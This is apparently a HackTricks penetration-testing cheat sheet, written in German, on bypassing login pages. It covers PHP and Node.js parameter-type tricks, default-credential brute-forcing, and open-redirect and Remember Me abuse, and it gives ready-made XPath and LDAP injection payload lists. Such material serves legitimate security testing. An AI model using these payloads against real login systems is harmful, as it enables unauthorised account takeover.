 # Login Bypass

{{#include ../../banners/hacktricks-training.md}}

## **Umgehung des regulären Logins**

Wenn Sie eine Login-Seite finden, können Sie hier einige Techniken finden, um sie zu umgehen:

- Überprüfen Sie **Kommentare** auf der Seite (nach unten und nach rechts scrollen?)
- Überprüfen Sie, ob Sie **direkt auf die eingeschränkten Seiten zugreifen können**
- Überprüfen Sie, ob Sie **die Parameter nicht senden** (keine oder nur 1 senden)
- Überprüfen Sie den **PHP-Vergleichsfehler:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
- **Ändern Sie den Inhaltstyp auf json** und senden Sie json-Werte (bool true eingeschlossen)
- Wenn Sie eine Antwort erhalten, die besagt, dass POST nicht unterstützt wird, können Sie versuchen, das **JSON im Body, aber mit einer GET-Anfrage** mit `Content-Type: application/json` zu senden
- Überprüfen Sie den möglichen Parsing-Fehler von nodejs (lesen Sie [**dies**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
- Nodejs wird diese Payload in eine Abfrage umwandeln, die der folgenden ähnelt: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` was dazu führt, dass das Passwort immer wahr ist.
- Wenn Sie ein JSON-Objekt senden können, können Sie `"password":{"password": 1}` senden, um den Login zu umgehen.
- Denken Sie daran, dass Sie, um diesen Login zu umgehen, immer einen **gültigen Benutzernamen kennen und senden müssen**.
- **Hinzufügen von `"stringifyObjects":true`** Option beim Aufruf von `mysql.createConnection` wird schließlich **alle unerwarteten Verhaltensweisen blockieren, wenn `Object` im Parameter übergeben wird**.
- Überprüfen Sie die Anmeldeinformationen:
- [**Standardanmeldeinformationen**](../../generic-hacking/brute-force.md#default-credentials) der verwendeten Technologie/Plattform
- **Häufige Kombinationen** (root, admin, password, Name der Technologie, Standardbenutzer mit einem dieser Passwörter).
- Erstellen Sie ein Wörterbuch mit **Cewl**, **fügen Sie** den **Standard** Benutzernamen und das Passwort (falls vorhanden) hinzu und versuchen Sie, es mit allen Wörtern als **Benutzernamen und Passwort** zu brute-forcen
- **Brute-Force** mit einem größeren **Wörterbuch (**[**Brute force**](../../generic-hacking/brute-force.md#http-post-form)**)**

### SQL Injection-Authentifizierungsumgehung

[Hier finden Sie mehrere Tricks, um den Login über **SQL-Injection** zu umgehen](../sql-injection/#authentication-bypass).

Auf der folgenden Seite finden Sie eine **benutzerdefinierte Liste, um den Login** über SQL-Injection zu umgehen:

{{#ref}}
sql-login-bypass.md
{{#endref}}

### Keine SQL Injection-Authentifizierungsumgehung

[Hier finden Sie mehrere Tricks, um den Login über **No SQL Injections** zu umgehen](../nosql-injection.md#basic-authentication-bypass)**.**

Da die NoSQL-Injection erfordert, dass die Parameterwerte geändert werden, müssen Sie diese manuell testen.

### XPath Injection-Authentifizierungsumgehung

[Hier finden Sie mehrere Tricks, um den Login über **XPath Injection** zu umgehen.](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection Authentifizierungsumgehung

[Hier finden Sie mehrere Tricks, um sich über **LDAP Injection** anzumelden.](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Remember Me

Wenn die Seite eine "**Remember Me**" Funktionalität hat, überprüfen Sie, wie sie implementiert ist, und sehen Sie, ob Sie sie missbrauchen können, um **andere Konten zu übernehmen**.

### Redirects

Seiten leiten Benutzer normalerweise nach dem Login um. Überprüfen Sie, ob Sie diese Umleitung ändern können, um einen [**Open Redirect**](../open-redirect.md) zu verursachen. Vielleicht können Sie einige Informationen (Codes, Cookies...) stehlen, wenn Sie den Benutzer auf Ihre Webseite umleiten.

## Other Checks

- Überprüfen Sie, ob Sie **Benutzernamen auflisten** können, indem Sie die Login-Funktionalität missbrauchen.
- Überprüfen Sie, ob **Auto-Vervollständigung** in den Passwort/**sensiblen** Informationen **Formularen** **aktiv** ist: `<input autocomplete="false">`

## Automatic Tools

- [HTLogin](https://github.com/akinerkisa/HTLogin)



{{#include ../../banners/hacktricks-training.md}}
